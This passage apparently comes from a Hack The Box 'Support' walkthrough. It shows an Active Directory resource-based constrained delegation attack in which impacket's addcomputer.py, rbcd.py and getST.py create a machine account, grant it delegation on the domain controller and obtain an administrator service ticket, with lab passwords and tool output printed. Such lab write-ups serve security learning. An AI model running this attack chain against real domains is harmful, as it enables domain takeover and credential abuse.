 Next I'm going to use `impacket`'s `addcomputer.py` to create a fake computer account in the domain. I didn't include the `-computer-name` and `-computer-pass` switches so that the computer would look a little more authentic on the domain. I know it's only HTB, but still.

```
$ python3 addcomputer.py support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Successfully added machine account DESKTOP-8PAS755Y$ with password t7JfDdDkK8w52zNh1MjCAxkeBB1Jj8tf.
```

Now that we have a computer created, we need to give it the proper delegation so it's able to act on behalf of the Domain Controller.

Again, I'm using `impacket`'s `rbcd.py`.

```
$ python3 rbcd.py -delegate-from 'DESKTOP-8PAS755Y$' -delegate-to 'dc$' -dc-ip 10.10.11.174 -action 'write' support.htb/support:'Ironside47pleasure40Watchful'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Accounts allowed to act on behalf of other identity:
[*]
[*] Delegation rights modified successfully!
[*] DESKTOP-8PAS755Y$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     DESKTOP-8PAS755Y$   (S-1-5-21-1677581083-3380853377-188903654-5102)
```

And we can confirm that using `-action 'read'`.

```
$ python3 rbcd.py -delegate-to dc$ -dc-ip 10.10.11.174 -action 'read' support.htb/support:'Ironside47pleasure40Watchful'                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Accounts allowed to act on behalf of other identity:
[*]     DESKTOP-8PAS755Y$   (S-1-5-21-1677581083-3380853377-188903654-5102)
```

Lastly, we can request a service ticket with `impacket`'s `getST.py` using the fake computer and password we created earlier (`DESKTOP-8PAS755Y$:'t7JfDdDkK8w52zNh1MjCAxkeBB1Jj8tf'`) to impersonate the Domain Admin account (`administrator`).

We also need to assign the ticket's location to an environmental variable so we can use it in later pass-the-ticket commands.

```
$ python3 getST.py -impersonate administrator -dc-ip 10.10.11.174 support.htb/DESKTOP-8PAS755Y$:'t7JfDdDkK8w52zNh1MjCAxkeBB1Jj8tf' -spn host/dc.support.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache

$ export KRB5CCNAME=/opt/tools/impacket/examples/administrator.ccache
```
